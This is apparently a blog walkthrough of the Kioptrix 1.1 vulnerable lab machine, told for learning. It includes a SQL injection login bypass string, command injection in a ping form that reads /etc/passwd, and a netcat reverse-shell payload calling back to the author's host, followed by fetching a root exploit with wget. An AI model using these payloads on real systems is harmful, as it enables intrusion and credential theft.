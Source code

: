 ```yaml
---
layout: post
title: Kioptrix 1.1 Walkthrough
---
```

Kioptrix level 1 is under my belt and its time to move on to the next challenge labled "Kioptrix 1.1". I use netdiscover to find the ip of the new target Kioptrix 1.1. 

![Image description](/images/kioptrix1.2.1.png)

The ip of our vulnerable virtual machine is 172.16.158.129. I needed to gather more information about the virtual machine so I used nmap to do a basic scan. 

![Image description](/images/kioptrix1.2.2.png)

Right away I noticed multiple interesting ports to explore. I decided to start with port 80 and I opened up my web browser then pointed it to 172.16.158.129 to see if there are any vulnerable web applications. I am greeted with a login form. 

![Image description](/images/kioptrix1.2.3.png)

I was able to get in with a simple SQL injection.

Login: Admin
Password: ' OR '1'='1

I was then brought to a form that allows you to ping a mahine on the network. I tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

I was able to display the contents of /etc/passwd for later use. However, I still needed to obtain root. I decided to see if I could obtain a shell in a similar way that I displayed /etc/passwd.

![Image description](/images/kioptrix1.2.8.png)

I set up netcat to listen for any connects on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform and obtained a shell. However, I still wasnt root.

![Image description](/images/kioptrix1.2.10.png)

I found a local root exploit but I needed to get it over to kioptrix. I set up a python simple server to host my exploit.

![Image description](/images/kioptrix1.2.13.png)

Then I used wget to get my exploit. 

![Image description](/images/kioptrix1.2.12.png)

I compiled the exploit, and then ran it. Root obtained!

![Image description](/images/kioptrix1.2.11.png)

On to the next challenge!

